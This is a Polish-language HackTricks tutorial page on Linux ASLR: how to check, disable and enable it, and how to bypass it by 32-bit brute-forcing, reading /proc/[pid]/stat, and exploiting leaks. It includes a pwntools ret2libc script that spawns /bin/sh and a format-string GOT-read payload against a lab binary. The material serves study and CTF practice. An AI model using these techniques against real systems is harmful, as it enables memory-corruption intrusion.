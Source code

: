 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

**Randomizacja układu przestrzeni adresowej (ASLR)** to technika zabezpieczeń stosowana w systemach operacyjnych do **randomizacji adresów pamięci** używanych przez procesy systemowe i aplikacyjne. Dzięki temu znacznie trudniej jest atakującemu przewidzieć lokalizację konkretnych procesów i danych, takich jak stos, sterta i biblioteki, co łagodzi niektóre rodzaje exploitów, szczególnie przepełnienia bufora.

### **Sprawdzanie statusu ASLR**

Aby **sprawdzić** status ASLR w systemie Linux, możesz odczytać wartość z pliku `/proc/sys/kernel/randomize_va_space`. Wartość przechowywana w tym pliku określa rodzaj stosowanej randomizacji ASLR:

* **0**: Brak randomizacji. Wszystko jest statyczne.
* **1**: Konserwatywna randomizacja. Biblioteki współdzielone, stos, mmap(), strona VDSO są randomizowane.
* **2**: Pełna randomizacja. Oprócz elementów randomizowanych przez konserwatywną randomizację, pamięć zarządzana przez `brk()` jest randomizowana.

Możesz sprawdzić status ASLR za pomocą następującego polecenia:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Wyłączanie ASLR**

Aby **wyłączyć** ASLR, ustaw wartość `/proc/sys/kernel/randomize_va_space` na **0**. Wyłączanie ASLR jest ogólnie niezalecane poza scenariuszami testowymi lub debugowania. Oto jak możesz to wyłączyć:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Możesz również wyłączyć ASLR dla wykonania za pomocą:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Włączanie ASLR**

Aby **włączyć** ASLR, możesz zapisać wartość **2** do pliku `/proc/sys/kernel/randomize_va_space`. Zazwyczaj wymaga to uprawnień roota. Włączenie pełnej randomizacji można zrealizować za pomocą następującego polecenia:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Trwałość po ponownym uruchomieniu**

Zmiany wprowadzone za pomocą poleceń `echo` są tymczasowe i zostaną zresetowane po ponownym uruchomieniu. Aby zmiana była trwała, musisz edytować plik `/etc/sysctl.conf` i dodać lub zmodyfikować następującą linię:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Po edytowaniu `/etc/sysctl.conf`, zastosuj zmiany za pomocą:
```bash
sudo sysctl -p
```
To zapewni, że ustawienia ASLR pozostaną po ponownych uruchomieniach.

## **Obejścia**

### 32-bitowe brute-forcing

PaX dzieli przestrzeń adresową procesu na **3 grupy**:

* **Kod i dane** (zainicjowane i niezainicjowane): `.text`, `.data` i `.bss` —> **16 bitów** entropii w zmiennej `delta_exec`. Ta zmienna jest losowo inicjowana z każdym procesem i dodawana do początkowych adresów.
* **Pamięć** przydzielona przez `mmap()` i **biblioteki współdzielone** —> **16 bitów**, nazwane `delta_mmap`.
* **Stos** —> **24 bity**, określane jako `delta_stack`. Jednak efektywnie wykorzystuje **11 bitów** (od 10. do 20. bajtu włącznie), wyrównane do **16 bajtów** —> To skutkuje **524,288 możliwymi rzeczywistymi adresami stosu**.

Poprzednie dane dotyczą systemów 32-bitowych, a zmniejszona końcowa entropia umożliwia obejście ASLR poprzez wielokrotne próby wykonania, aż exploit zakończy się sukcesem.

#### Pomysły na brute-force:

* Jeśli masz wystarczająco duży overflow, aby pomieścić **duży NOP sled przed shellcode**, możesz po prostu brute-forcować adresy na stosie, aż przepływ **przeskoczy nad jakąś częścią NOP sled**.
* Inną opcją w przypadku, gdy overflow nie jest tak duży, a exploit może być uruchomiony lokalnie, jest możliwość **dodania NOP sled i shellcode w zmiennej środowiskowej**.
* Jeśli exploit jest lokalny, możesz spróbować brute-forcować adres bazowy libc (przydatne dla systemów 32-bitowych):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Jeśli atakujesz zdalny serwer, możesz spróbować **brute-forcować adres funkcji `usleep` z `libc`**, przekazując jako argument 10 (na przykład). Jeśli w pewnym momencie **serwer odpowiada o 10s dłużej**, znalazłeś adres tej funkcji.

{% hint style="success" %}
W systemach 64-bitowych entropia jest znacznie wyższa i to nie jest możliwe.
{% endhint %}

### Informacje lokalne (`/proc/[pid]/stat`)

Plik **`/proc/[pid]/stat`** procesu jest zawsze czytelny dla wszystkich i **zawiera interesujące** informacje, takie jak:

* **startcode** & **endcode**: Adresy powyżej i poniżej z **TEXT** binarnego
* **startstack**: Adres początku **stosu**
* **start\_data** & **end\_data**: Adresy powyżej i poniżej, gdzie znajduje się **BSS**
* **kstkesp** & **kstkeip**: Aktualne adresy **ESP** i **EIP**
* **arg\_start** & **arg\_end**: Adresy powyżej i poniżej, gdzie są **argumenty cli**.
* **env\_start** & **env\_end**: Adresy powyżej i poniżej, gdzie są **zmienne środowiskowe**.

Dlatego, jeśli atakujący znajduje się na tym samym komputerze co binarny plik, który jest wykorzystywany, a ten plik binarny nie oczekuje przepełnienia z surowych argumentów, ale z innego **wejścia, które można skonstruować po przeczytaniu tego pliku**. Możliwe jest, aby atakujący **uzyskał kilka adresów z tego pliku i skonstruował od nich przesunięcia dla exploita**.

{% hint style="success" %}
Aby uzyskać więcej informacji na temat tego pliku, sprawdź [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) szukając `/proc/pid/stat`
{% endhint %}

### Posiadanie wycieku

* **Wyzwanie polega na uzyskaniu wycieku**

Jeśli otrzymasz wyciek (łatwe wyzwania CTF), możesz obliczyć przesunięcia na jego podstawie (zakładając na przykład, że znasz dokładną wersję libc, która jest używana w systemie, który exploitujesz). Ten przykład exploita jest wyciągnięty z [**przykładu stąd**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (sprawdź tę stronę po więcej szczegółów):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Wykorzystując przepełnienie bufora, możliwe byłoby wykorzystanie **ret2plt** do wyekstrahowania adresu funkcji z libc. Sprawdź:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Podobnie jak w ret2plt, jeśli masz dowolne odczyty przez lukę w formatach ciągów, możliwe jest wyekstrahowanie adresu **funkcji libc** z GOT. Następujący [**przykład pochodzi stąd**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Możesz znaleźć więcej informacji na temat Format Strings arbitrary read w:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Spróbuj obejść ASLR, wykorzystując adresy w stosie:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
